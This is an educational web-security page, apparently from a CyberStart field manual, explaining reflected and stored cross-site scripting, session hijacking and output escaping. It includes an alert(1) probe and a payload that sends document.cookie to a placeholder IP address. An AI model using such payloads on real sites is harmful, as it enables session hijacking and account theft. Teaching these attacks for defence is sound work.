 ## WEB

# Cross site scripting

<div align="center">
 <video src="https://github.com/alphyos/CyberStart-2023/assets/116646389/9f1402b2-b229-4163-b1ca-36abf864d7cb" width="800" />
</div>

## XSS (Cross Site Scripting)

Here we cover the concept of cross site scripting, or as it is more
broadly known 'XSS'. It is very actively exploited as it can be a tough
vulnerability for website owners to stay on top of, and can affect many
areas of a web app. It's often caused by having poor filtering of user
provided data and allowing an attacker to get JavaScript code to execute
 in a user's browser - often providing access to their account, or
redirecting them to malicious code. It can seem like an ongoing game of
site owners cleaning XSS vulnerable output and an attacker finding
another vulnerable area, or a more creative workaround to get it working
 again.

An example vulnerable point may be a name which is part of a querystring within a URL, eg `https://example.com?name=Bob` but rather than provide "Bob" you might be able to provide malicious code instead, so the URL is `https://example.com?name=<script>alert(1);</script>`. If visiting this URL you see an alert message pop up with `1`
 as the message you can be pretty sure you found a vulnerable area. This
 is a basic example and tools exist to try 1000's of different
variations across a site to find obscure vulnerable areas.

## Session hijacking

With proof of a vulnerability and if the site has a [session cookie](https://play.cyberstart.com/field-manual/8f9e3c44-d7eb-11eb-98f3-0242ac140009),
 an attacker could craft a link to provide to a victim somehow (perhaps
via email or messenger), which includes injected code to steal their
session cookie value; and so will be able to 'hijack' their session. To
demonstrate this, if the JavaScript portion of the URL instead contained
 say `<script>document.location='https://1.268.3.5?data='%2bdocument.cookie</script>`
 and the attacker was listening for incoming connections on that IP,
they'd just have to wait for incoming cookie data when the victim
clicked the link. As soon as the data comes in, they can copy the
session cookie name & key value into their own browser to then have
the *same session* as the victim, effectively joining them in their session and having access to their account, personal information and more!

## Stored XSS

The above is an example of **Reflected XSS** where the server *reflects* an attack back to the user via some provided data. Another common type of XSS is **Stored XSS**.
 This is where the attacker is able to get the web app to store their
attack in a persistent store, such as a database. There's then no need
to try to send links to anyone; whoever visits the site will have it
triggered for them. One vulnerability could lead to thousands of other
users on the site being compromised.

These attacks often succeed as user's typically trust the websites
they're visiting, and don't consider that an attacker's malicious code
may be delivered to them from the site.

## Convincing redirects

Aside from joining the victim in their session to have joint access
to their account, the attacker may instead provide a link which instead
of stealing their cookie information, shows a convincing warning
message. Having an alert show on a site the victim trusts may give them
the confidence that the site is advising and helping them, and proceed
to download malware or other malicious code. If successful, the attacker
 can then use this to get a foothold on their computer.

> Browsers have gotten better at detecting XSS vulnerabilities as it's
> such a huge problem. However, website owners can protect themselves by
> running security tools to check for XSS vulnerabilities and of course
> manually confirming user provided code doesn't have XSS issues when
> output on a page.

## Cleaning user data to prevent XSS

Filtering user data when initially provided is a common approach to
preventing XSS, but it can be tricky: we may accidentally remove
characters that are valid, for example an apostrophe in the name *Tom O'Brien*, or the requirements for the sanitised data may change after the data has already been collected.

Rather than trying to filter user data on input, current best
practices instead suggests accepting user data largely as-is, knowing
that it is untrustworthy, and cleaning user data when output to the
page. This allows for much more focused cleaning depending on the
context, or where the user data is being used.

A common question is "How do you clean XSS on output?". Many
frameworks offer simple cleaning functions, but it's possible to protect
 yourself if your framework does not offer this or you don't use a
framework. While not bulletproof for all unicode character sets (e.g.
UTF-16 rather than the more common UTF-8), there are 5 contexts you
should clean within - HTML, Attribute, JavaScript, CSS and URL, each
with their own requirements. See the [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for more info.

[← Previous: 2.10 - Command injection](https://play.cyberstart.com/field-manual/8f9f21e0-d7eb-11eb-9ae7-0242ac140009)
[Next: 2.12 - Filters in web applications →](https://play.cyberstart.com/field-manual/8fa01690-d7eb-11eb-81eb-0242ac140009)

